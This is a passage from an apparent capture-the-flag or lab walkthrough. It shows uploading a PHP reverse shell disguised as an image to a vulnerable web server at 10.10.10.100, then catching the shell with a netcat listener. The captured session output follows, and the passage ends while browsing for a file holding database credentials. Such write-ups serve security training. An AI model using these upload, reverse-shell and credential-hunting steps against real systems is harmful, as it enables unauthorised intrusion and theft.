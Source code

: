 ```bash

──(kali㉿kali)-[/]
└─$ cd usr/share/webshells/php
                                                                                                                                               
┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ ls
findsocket  php-backdoor.php  php-reverse-shell.php  qsd-php-backdoor.php  reverse-shell.php  simple-backdoor.php

```
![find_the_reverse-shell.php](find_rev-shell.png)
![upload](upload-rev-shell.png)

Now upload the updated file.

Now use netcat command with the specified port number in the reverse shell file.

``` bash

┌──(kali㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...

```

After uploading the file go to the 10.10.10.100/blog/images. And select the uploaded image to get the shell.
![select_uploaded_file](uploaded_img_rev-shell.png)

## Get root access

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 1234
listening on [any] 1234 ...
10.10.10.100: inverse host lookup failed: Host name lookup failure
connect to [10.10.10.101] from (UNKNOWN) [10.10.10.100] 59470
Linux web 2.6.38-8-server #42-Ubuntu SMP Mon Apr 11 03:49:04 UTC 2011 x86_64 x86_64 x86_64 GNU/Linux
 22:06:21 up  3:39,  0 users,  load average: 0.00, 0.01, 0.01
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ 
```
After  the shell is obtained  we could find a file mysqli_connect.php file in the var directory which has  username and password.

```bash
$ cd var
$ ls
backups
cache
crash
index.html
lib
local
lock
log
mail
mysqli_connect.php
opt
run
spool
```